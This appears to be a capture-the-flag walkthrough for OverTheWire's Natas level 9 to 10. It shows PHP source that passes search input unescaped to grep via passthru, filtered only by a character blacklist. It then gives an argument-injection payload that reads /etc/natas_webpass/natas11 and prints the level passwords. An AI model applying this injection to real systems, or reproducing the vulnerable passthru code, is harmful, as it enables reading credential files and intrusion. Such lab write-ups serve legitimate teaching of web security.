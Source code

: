 natas10
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Done!
---

Natas Level 9 → Level 10

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
---

View Sourcecode:

```
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

```
So now we can't use `;`, `|`, `&`.

http://natas10.natas.labs.overthewire.org/?needle=+u+%2Fetc%2Fnatas_webpass%2Fnatas11&submit=Search

So we type: `u /etc/natas_webpass/natas11`

Output:
Output:

/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:Celsius
...

